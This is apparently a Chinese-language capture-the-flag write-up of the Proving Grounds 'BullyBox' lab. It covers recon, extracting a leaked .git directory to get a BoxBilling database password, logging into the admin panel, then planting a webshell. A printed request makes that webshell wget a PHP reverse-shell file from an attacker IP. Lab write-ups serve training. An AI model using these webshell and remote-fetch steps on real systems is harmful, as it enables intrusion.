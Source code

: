 ```yaml
---
title: Proving Grounds Practice-BullyBox
date: 2025-7-06 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250709000943147](./BullyBox/image-20250709000943147.png)

# 80端口

## exploit

去搜索一下该系统的漏洞，

![image-20250709101136912](./BullyBox/image-20250709101136912.png)

![image-20250709101258812](./BullyBox/image-20250709101258812.png)

但这个是需要拿到管理员权限，登录只能通过邮箱登录，先可以通过重置密码去测试一下管理员邮箱,猜测可能有几种格式,但是都不存在

> admin@bullybox.com
>
> admin@bullybox.local
>
> admin@boxbilling.com
>
> admin@boxbilling.local

![image-20250709102824202](./BullyBox/image-20250709102824202.png)

## git泄露

![image-20250709001640424](./BullyBox/image-20250709001640424.png)

![image-20250709001711084](./BullyBox/image-20250709001711084.png)

其中`robots.txt`中的目录都不可以访问

![image-20250709001744060](./BullyBox/image-20250709001744060.png)

访问.git目录回显403也禁止访问

![image-20250709001821180](./BullyBox/image-20250709001821180.png)

可以使用一些提取git仓库的工具提取一下git泄露的内容

这里使用`git_extract`,工具地址：https://github.com/gakki429/Git_Extract

![image-20250709002115104](./BullyBox/image-20250709002115104.png)

在git泄露的文件bb-config.php中有数据库连接账号密码

![image-20250709101412127](./BullyBox/image-20250709101412127.png)

```
Playing-Unstylish7-Provided
```

但是找了一圈都没有找到管理员的邮箱，上网通过关键字查一下`boxbilling admin`，找到了boxbilling的帮助文档，其中说了admin管理页面是`bb-config.php`下的`admin_area_prefix`对应的地址，上图中最上面就有

[常见问题解答 — BoxBilling 4.21 文档 --- Faq — BoxBilling 4.21 documentation](./https://docs.boxbilling.com/en/latest/reference/faq.html#:~:text=BoxBilling admin area is located at url%3A http%3A%2F%2Fwww.yourdomain.com%2Findex.php%3F_url%3D%2Fbb-admin.,in bb-config.php file by editing value of admin_area_prefix.)

![image-20250709103005850](./BullyBox/image-20250709103005850.png)

然后访问http://bullybox.local/index.php?_url=/bb-admin，这个页面才是管理员登录的页面，之前重置密码是客户使用的界面，在这里使用上面猜测的四个邮箱和数据库密码登录，最终使用`admin@bullybox.local`和数据库对应的密码可以成功登录

![image-20250709103415793](./BullyBox/image-20250709103415793.png)

然后利用exp就可以命令执行，先根据exp中的示例写入phpinfo，然后直接在根目录下访问ax.php，就可以访问到phpinfo

![image-20250709103653747](./BullyBox/image-20250709103653747.png)

![image-20250709103745483](./BullyBox/image-20250709103745483.png)

可以成功写入内容了接下来写入一句话木马然后反弹shell

![image-20250709104004643](./BullyBox/image-20250709104004643.png)

![image-20250709104011992](./BullyBox/image-20250709104011992.png)

尝试了多个反弹shell的代码都不行，那就使用命令执行上传一个php反弹shell的后门，然后去访问这个后门达到反弹shell

```
http://bullybox.local/shell.php?cmd=wget%20http://192.168.45.248:8000/shell1.php
```

![image-20250709104912248](./BullyBox/image-20250709104912248.png)

![image-20250709104921505](./BullyBox/image-20250709104921505.png)

# 提权

该用户是有运行任何命令的权限的

![image-20250709111007572](./BullyBox/image-20250709111007572.png)